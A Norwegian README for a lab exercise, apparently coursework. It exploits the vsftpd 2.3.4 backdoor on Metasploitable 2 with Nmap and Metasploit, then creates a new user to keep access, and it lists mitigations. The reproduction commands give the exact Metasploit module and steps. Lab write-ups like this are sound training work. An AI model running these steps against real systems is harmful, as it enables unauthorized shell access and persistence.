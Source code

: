 # vsftpd 2.3.4 backdoor — lab

Fiktiv, kontrollert øvingslab: identifisere sårbar **vsftpd 2.3.4**, utnytte med Metasploit og verifisere shell.  
> **Ansvarsfraskrivelse:** Kun i lab/demo. Ikke forsøk mot systemer du ikke eier eller har eksplisitt tillatelse til.

## Mål
- Finne FTP-versjon (Nmap)
- Utnytte backdoor (Metasploit)
- Opprette ny bruker og verifisere innlogging

## Miljø (kort)
- Angriper: Kali Linux  
- Mål: Metasploitable 2 (lokalt labnett)  
- Verktøy: Nmap, Metasploit

## Evidens (sett inn skjermbilder senere)
**1) Versjonsidentifikasjon**
![Nmap FTP-versjon](images/nmap-ftp-version.png "Nmap viser vsftpd 2.3.4")

**2) Utnyttelse og shell**
![Metasploit shell](images/msf-session.png "Shell etablert via exploit/unix/ftp/vsftpd_234_backdoor")

**3) Opprette bruker**
![adduser](images/adduser.png "Opprett lab-bruker (maskér kandidatnummer ved behov)")

**4) Innlogging etter restart**
![innlogging](images/login-new-user.png "Innlogging med ny bruker")

## Reproduser (eksempelkommandoer)
```bash
# 1) Oppdagelse
nmap -sV -p 21 192.168.x.x

# 2) Metasploit (kort)
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.x.x
run
```

## Mitigasjoner (kort)
- Fjern/oppgrader sårbar tjeneste
- Reduser angrepsflate (steng ubrukte porter)
- Patchrutiner, IDS/IPS-signaturer

## Lisens
MIT
